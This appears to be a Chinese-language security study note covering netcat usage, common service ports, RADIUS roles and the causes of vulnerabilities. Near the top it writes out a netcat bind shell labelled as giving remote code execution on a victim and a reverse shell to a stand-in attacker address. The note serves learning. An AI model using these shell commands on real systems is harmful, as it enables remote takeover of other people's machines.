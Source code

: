 ex :
- 單純連線 `nc -v example.com 80`
- 開在受害者環境，連上就 RCE `nc -l -p 4444 -e /bin/bash`
- reverse shell 連回駭客電腦 `nc attacker_ip 4444 -e /bin/bash`
    

## Port
- 20 ftp-data FTP 資料連接埠
- 21 ftp
- 25 smtp Simple Mail Transfer Protocol (SMTP)
- 53 domain 網域名稱服務（如 BIND）
- 110 pop3 郵局通訊協定第三版
- 123 ntp 網路時間協定 (NTP)
- 143 imap 網際網路訊息存取協定 (IMAP) // pop 進化版
- 161 snmp 簡易網路管理協定 (SNMP) // 網路設備管理常用
- 162 snmptrap SNMP 的 Traps // 設備回報給管理用
- 179 bgp 邊界閘道協定 // ISP 與 ISP 之間用
- 194 irc 網際網路聊天室 (IRC)
- *** 389 ldap 輕量級目錄存取協定 (LDAP) !!!!!!!
- *** 445 microsoft-ds 透過 TCP/IP 的 SMB !!!!!!!
- *** 636 ldaps 透過 SSL 的輕量級目錄存取協定 (LDAPS)
- 513/tcp login 遠端登入 (rlogin) // 現在比較常用 ssh
- *** 514/udp syslog UNIX 系統紀錄服務 // SIEM 常用來收 log
- 520/udp 路由資訊協定 (RIP)
- *** 1433/tcp  ms-sql-s (Microsoft SQL Server)
- *** 1812 radius Radius 撥接認證與帳務服務 // server
- 1813 radius-acct Radius Accounting
- 2049 nfs 網路檔案系統 (NFS)
- *** 3306 mysql MySQL 資料庫服務
- *** 3389 rdp 微軟遠端桌面連線


RADIUS 補充
RADIUS ( Remote Authentication Dial-In User Service )
- 用來提供認證 (Authentication)、授權 (Authorization)、帳務 (Accounting)，簡稱 AAA
    
ex : 管理使用者登入與資源使用，常用於：VPN、Wi-Fi 無線網路、遠端撥接 (Dial-in)、NAS
    

| 角色                    | 說明 |
| --------------------- | ------------------------------------------------------------------- |
| **RADIUS Client**     | 也叫 NAS（Network Access Server），是使用者連入的設備，例如 VPN server、Wi-Fi AP、路由器。 |
| **RADIUS Server**     | 真正處理 AAA 的伺服器，驗證使用者帳號、密碼、授權等。                                       |
| **User / End Device** | 使用者或裝置，像是手機、筆電、撥接終端。                                                |


## 弱點
### 弱點產生原因

- 設計階段 → 系統先天弱點
ex : 演算法太老、自己發明奇怪的連接方式
- 實作階段 → 程式漏洞
ex : 常見程式漏洞，像是 SQL 串接、可以 cmdi 的程式等等
- 操作階段 → 管理或設定失誤
ex : AD 亂開權限之類的
- 人性／習慣 → 使用者行為引起的風險
